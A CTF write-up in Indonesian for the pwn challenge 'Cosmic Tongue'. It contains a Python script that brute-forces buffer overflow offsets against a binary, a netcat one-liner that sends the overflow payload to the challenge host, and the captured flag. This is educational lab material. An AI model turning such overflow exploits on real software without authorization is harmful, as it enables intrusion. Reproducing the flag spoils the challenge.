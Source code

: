 ## Cosmic Tongue - [211 point]
> Waiter, waiter! cast a meteor on this person NOW!

> Author: adieos

- Explanation
  <p>Jika Instance dijalankan</p>
  <img width="2520" height="345" alt="image" src="https://github.com/user-attachments/assets/652ba142-a9fc-4f84-8c35-92d615bbe8f1" />

### payload.py
```py


import subprocess
import sys

BINARY = "./chall"  
MIN_OFF = 0
MAX_OFF = 64

target_phrase = "By your word, the very bedrock doth tremble!" 
open_error = "Error opening flag.txt"

def try_payload(offset):
    payload = b"A" * offset + b"opensesame\x00"
    try:
       
        p = subprocess.run([BINARY], input=payload, stdout=subprocess.PIPE, stderr=subprocess.PIPE, timeout=1)
    except FileNotFoundError:
        print(f"[!] Binary tidak ditemukan: {BINARY}")
        sys.exit(1)
    except subprocess.TimeoutExpired:
        return None, None

    out = p.stdout.decode(errors="ignore")
    err = p.stderr.decode(errors="ignore")
    return out, err

def main():
    found = []
    print(f"[+] Mencoba offsets {MIN_OFF}..{MAX_OFF} pada binary: {BINARY}\n")
    for off in range(MIN_OFF, MAX_OFF+1):
        out, err = try_payload(off)
        if out is None:
            print(f"[!] timeout saat mencoba offset {off}")
            continue
        hit = False
        reason = []
        if target_phrase in out:
            hit = True
            reason.append("triggered_second_branch")
        if open_error in out:
            
            reason.append("tried_open_flag")
            hit = True
        
        if "flag" in out.lower() or "CTF{" in out or "FLAG{" in out:
            reason.append("flag_like_output")
            hit = True

        if hit:
            print(f"[!] Offset {off} -> triggered ({', '.join(reason)})")
            print("----- stdout -----")
            print(out.strip())
            print("----- stderr -----")
            if err.strip():
                print(err.strip())
            print("------------------\n")
            found.append((off, out, err))
    if not found:
        print("[~] Tidak ada offset yang terdeteksi memicu cabang kedua dalam rentang yang dicoba.")
        print("[~] Coba rentang offset yang lebih besar, atau cek proteksi binary (ASLR/Canary/PIE).")
    else:
        print(f"[+] Selesai. ditemukan {len(found)} candidate(s). Periksa output di atas.")

if __name__ == "__main__":
    main()
  ```
<p>Payload ini langsung dijalankan dengan menembak ke Instance</p>

```sh
python3 - <<'PY' | nc intersec.hcs-team.com 10475
import sys
sys.stdout.buffer.write(b'A'*29 + b'opensesame\x00\n')
PY
```

<p><img width="1875" height="630" alt="image" src="https://github.com/user-attachments/assets/7c30b641-7051-4c49-9e1c-7356f07cdf21" />
</p>

## Flag = HCS{y0ur_w15hhh_15_my_c0mm4nd_51r3_d23e5d8e-dab3-4853-9d9a-c6b0e7a07dc6}









  <br>
  <br>

